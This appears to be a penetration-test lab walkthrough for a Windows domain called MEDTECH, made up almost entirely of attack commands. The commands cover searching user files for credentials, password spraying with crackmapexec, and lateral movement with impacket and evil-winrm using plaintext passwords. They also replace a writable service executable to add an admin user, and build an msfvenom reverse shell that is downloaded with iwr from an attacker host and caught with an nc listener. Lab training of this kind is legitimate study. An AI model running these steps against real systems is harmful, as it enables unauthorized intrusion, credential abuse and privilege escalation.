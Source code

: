 Try to find users via random files - find leon:rabbit!:)
```
Get-ChildItem -Path C:\Users\Administrator.MEDTECH\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

proxychains crackmapexec smb 172.16.188.10-14 172.16.188.82-83 -u leon -p 'rabbit!:)' --continue-on-success
```

Get lockout threshold
```
net accounts
```

We can't login using leon on 83 or 12 as we have status locked out - lets try the wario user found earlier
NOTE: adding a user for this exploit did not work as we were only a local not a system admin. we needed to generate a nonstaged reverse shell payload and use that to get nt authority/system
```
# does not work as shares not writable by non-admin
proxychains impacket-psexec wario:Mushroom\!@172.16.249.83

# use if no writable share
proxychains impacket-smbexec wario:Mushroom\!@172.16.249.83

proxychains impacket-wmiexec wario:Mushroom\!@172.16.249.83

# works but odd shell
proxychains evil-winrm -i 172.16.249.83 -u wario -p "Mushroom\!" 
upload powerview.ps1
upload winPEAS.exe
.\winPEAS.exe

# found writable exe
icacls C:\DevelopmentExecutables\auditTracker.exe

# for adding a user
x86_64-w64-mingw32-gcc adduser.c -o adduser2.exe
upload adduser2.exe
mv adduser2.exe auditTracker.exe
move C:\DevelopmentExecutables\auditTracker.exe C:\DevelopmentExecutables\auditTracker.exe.bak8
move .\auditTracker.exe C:\DevelopmentExecutables\
Restart-Service auditTracker

# check privs
net user
Get-LocalGroupMember administrators
Get-LocalGroupMember "Remote Desktop Users"
Get-LocalGroupMember "Remote Management Users"
proxychains evil-winrm -i 172.16.249.83 -u claudia3 -p "password123" 

# for using a shell
mv shell2.exe auditTracker.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.242 LPORT=9999 -f exe -o shell.exe
nc -nvlp 9999

iwr -uri http://192.168.45.219:8000/shell.exe -Outfile shell.exe
.\shell.exe
```
